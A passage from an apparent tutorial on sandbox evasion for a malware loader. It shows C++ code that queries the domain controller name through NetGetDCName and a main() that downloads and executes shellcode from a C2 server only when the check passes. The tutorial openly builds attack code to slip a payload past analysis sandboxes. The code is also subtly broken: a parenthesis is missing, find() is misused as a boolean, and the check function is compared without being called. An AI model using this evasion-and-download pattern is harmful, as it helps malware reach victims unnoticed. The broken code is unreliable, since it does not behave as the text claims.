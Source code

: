 *Screenshot from Any.Run showing an outbound HTTP Request*

This shows that our code functions as  intended! We can now move on to one of our final bypass categories -  Querying Network Information.

### Querying Network Information

For our last evasion technique, we will be querying  information about the Active Directory domain. We will be keeping it  simple by querying the name of a Domain Controller using the [NetGetDCName ](https://docs.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netgetdcname)Windows API. This is a relatively simple Windows API that fetches the primary  domain controller within the environment. This requires us to specify a  pointer to a string for the DC Name to be put into. Implementing the  function in C++ looks like so:

```cpp
BOOL isDomainController(){
// Create a long pointer to Wide String for our DC Name to live in
    LPCWSTR dcName;  
// Query the NetGetDCName Win32 API for the Domain Controller Name
    NetGetDCName(NULL, NULL, (LPBYTE *) &dcName);
// Convert the DCName from a Wide String to a String
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
// Search if the UNC path is referenced in the dcNewName variable. If so, there is likely a Domain Controller present in the environment. If this is true, pass the check, else, fail.
    if ( dcNewName.find("\\\\"){
          return TRUE;
    } else {
          return FALSE;
    }
} 
```

This code can be broken down into the following steps:

1. Declare two variables; one string, one LPCWSTR. The NetGetDCName WinAPI returns only an LPCWSTR.
2. Invoke the NetGetDCName Windows API. Two null values will be specified because we do not know the Server Name or the Domain Name of the environment we may be in
3. We convert the LPCWSTR to a normal string variable to check and see if the value is NULL (or, in the case of a string, "").
4. Execute the comparison statement and return True or False depending on the device name.


This will then call back to the Main() function which will then evaluate if  it needs to download and execute our shellcode from the C2 Server. The Main function now looks like so:

```cpp
int main() {
    if (isDomainController == TRUE) {
        downloadAndExecute();
    } else {
        cout << "Domain Controller Not Found!";
    }
} 
```

